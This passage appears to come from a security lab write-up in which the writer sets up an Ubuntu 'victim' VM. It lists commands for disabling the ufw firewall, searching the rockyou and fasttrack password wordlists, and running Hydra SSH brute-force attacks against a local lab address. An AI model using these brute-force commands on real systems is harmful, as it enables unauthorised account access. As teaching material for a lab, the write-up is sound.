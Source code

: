     // disable firewall
    $ sudo ufw disable

    // enable firewall
    $ sudo ufw enable

### WORDLIST STUFF

    // unzip an archive
    $ gunzip /usr/share/wordlists/rockyou.txt.gz

    // count words in text doc
    $ wc /usr/share/wordlists/rockyou.txt

    // display text content
    $ cat /usr/share/wordlists/rockyou.txt

    // get word count for password1
    $ cat /usr/share/wordlists/rockyou.txt | grep password1 | wc

    // serach for letmein string
    $ cat /usr/share/wordlists/rockyou.txt | grep letmein

    // get wordcount for text
    $ wc /usr/share/wordlists/fasttrack.txt

    // display text content
    $ cat /usr/share/wordlists/fasttrack.txt

    // search fro letmein string
    $ cat /usr/share/wordlists/fasttrack.txt | grep letmein

### HYDRA

    // hydra with a default wordlist
    $ hydra -V -f -t 4 -l luser1 -P /usr/share/wordlists/fasttrack.txt ssh://192.168.0.43

    // hydra with a custom wordlist
    $ hydra -V -f -t 4 -l luser1 -P /usr/share/wordlists/if2482passwds.txt ssh://192.168.0.43


<br></br>

## **Summary of Results**



### **A: Create a "Victim" Ubuntu VM, add a new user**

***1. Download .iso and install***

Grab the iso image from the [Main Ubuntu Downloads page](https://ubuntu.com/download/desktop).

To Instal in a VM, follow these [instructions here](https://ubuntu.com/tutorials/how-to-run-ubuntu-desktop-on-a-virtual-machine-using-virtualbox).

PLEASE NOTE:

---
